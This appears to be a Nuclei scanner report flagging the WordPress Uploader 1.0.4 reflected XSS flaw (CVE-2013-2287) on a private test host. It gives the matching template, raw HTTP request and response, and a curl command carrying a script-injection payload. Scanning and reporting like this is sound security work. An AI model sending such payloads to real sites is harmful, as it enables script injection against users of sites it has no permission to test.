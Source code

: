 ### WordPress Plugin Uploader 1.0.4 - Reflected Cross-Site Scripting (CVE-2013-2287) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2013-2287**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/uploader/views/notify.php?notify=unnotif&blog=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin Uploader 1.0.4 - Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2013, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Multiple cross-site scripting  vulnerabilities in views/notify.php in the Uploader plugin 1.0.4 for WordPress allow remote attackers to inject arbitrary web script or HTML via the (1) notify or (2) blog parameter. |
| CVE-ID | [CVE-2013-2287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-2287) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/uploader/views/notify.php?notify=unnotif&blog=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 255
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/uploader/views/notify.php?notify=unnotif&blog=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2013-2287
- http://osvdb.org/90840
- https://www.dognaedis.com/vulns/dgs-sec-16.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/uploader/views/notify.php?notify=unnotif&blog=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)